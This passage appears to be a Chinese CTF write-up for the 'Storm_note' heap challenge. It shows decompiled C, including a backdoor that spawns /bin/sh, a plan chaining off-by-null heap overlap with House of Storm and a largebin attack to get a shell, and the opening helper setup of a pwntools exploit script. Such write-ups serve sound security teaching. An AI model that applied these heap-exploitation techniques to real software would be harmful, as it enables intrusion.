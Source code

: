 	unsigned __int64 delete_note()
	{
	  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
	  unsigned __int64 v2; // [rsp+8h] [rbp-8h]
	
	  v2 = __readfsqword(0x28u);
	  puts("Index ?");
	  _isoc99_scanf("%d", &v1);
	  if ( v1 <= 0xF && note[v1] )
	  {
	    free(note[v1]);
	    note[v1] = 0LL;
	    note_size[v1] = 0;
	  }
	  else
	  {
	    puts("Invalid index");
	  }
	  return __readfsqword(0x28u) ^ v2;
	}
#### 一个后门函数
要想执行system("/bin/sh");，需要输入与程序一开始分配的随机数相同的数

	void __noreturn backdoor()
	{
	  char buf[56]; // [rsp+0h] [rbp-40h] BYREF
	  unsigned __int64 v1; // [rsp+38h] [rbp-8h]
	
	  v1 = __readfsqword(0x28u);
	  puts("If you can open the lock, I will let you in");
	  read(0, buf, 0x30uLL);
	  if ( !memcmp(buf, 0xABCD0100LL, 0x30uLL) )
	    system("/bin/sh");
	  exit(0);
	}
#### 思路
1、利用off-by-null 漏洞构造堆风水，实现堆块重叠，从而控制堆块内容。
2、House of storm，将处于unsortedbin的可控制的chunk放入largebin中，以便触发largebin attack
3、控制largebin的bk和bk_nextsize指针，通过malloc触发漏洞，分配到目标地址，实现任意地址写，将0xABCD0100处的0x30字节改为已知值，获得shell

#### 过程
先把前面的东西写好

	# coding=utf-8
	from pwn import *
	#context(endian='little',os='linux',arch='amd64',log_level='debug')
	sh = process('./Storm_note')
	
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims		    :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	def dbg():
	        gdb.attach(sh)
	        pause()
	